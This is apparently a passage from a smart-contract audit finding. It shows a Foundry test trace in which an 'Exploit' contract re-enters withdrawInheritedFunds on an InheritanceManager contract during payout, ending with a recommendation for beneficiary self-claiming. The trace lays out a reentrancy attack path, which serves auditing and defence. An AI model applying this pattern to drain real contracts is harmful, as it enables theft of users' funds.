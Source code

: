 ```diff
    │   └─ ← [Return] user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802]
    ├─ [0] VM::label(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802], "user2")
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(owner: [0x7c8999dC9a822c1f0Df42023113EDB4FDd543266])
    │   └─ ← [Return] 
    ├─ [69020] InheritanceManager::addBeneficiery(Exploit: [0xF62849F9A0B5Bf2913b396098F7c7019b51A820a])
    │   └─ ← [Stop] 
    ├─ [23120] InheritanceManager::addBeneficiery(user1: [0x29E3b139f4393aDda86303fcdAa35F60Bb7092bF])
    │   └─ ← [Stop] 
    ├─ [23120] InheritanceManager::addBeneficiery(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802])
    │   └─ ← [Stop] 
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    ├─ [0] VM::warp(7776001 [7.776e6])
    │   └─ ← [Return] 
    ├─ [0] VM::startPrank(Exploit: [0xF62849F9A0B5Bf2913b396098F7c7019b51A820a])
    │   └─ ← [Return] 
    ├─ [22686] InheritanceManager::inherit()
    │   └─ ← [Stop] 
    ├─ [0] VM::expectRevert(something went wrong)
    │   └─ ← [Return] 
    ├─ [94638] InheritanceManager::withdrawInheritedFunds(0x0000000000000000000000000000000000000000)
    │   ├─ [79356] Exploit::receive{value: 3000000000000000000}()
    │   │   ├─ [0] console::log("IM balance:", 6000000000000000000 [6e18]) [staticcall]
    │   │   │   └─ ← [Stop] 
    │   │   ├─ [77789] InheritanceManager::withdrawInheritedFunds(0x0000000000000000000000000000000000000000)
    │   │   │   ├─ [279] Exploit::receive{value: 2000000000000000000}()
    │   │   │   │   └─ ← [Stop] 
    │   │   │   ├─ [0] user1::fallback{value: 2000000000000000000}()
    │   │   │   │   └─ ← [Stop] 
    │   │   │   ├─ [0] user2::fallback{value: 2000000000000000000}()
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Stop] 
    │   ├─ [0] user1::fallback{value: 3000000000000000000}()
    │   │   └─ ← [OutOfFunds] EvmError: OutOfFunds
    │   └─ ← [Revert] revert: something went wrong
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.12ms (1.34ms CPU time)
```
### Recommendations
Implement a beneficiary self claiming method to withdraw funds instead.

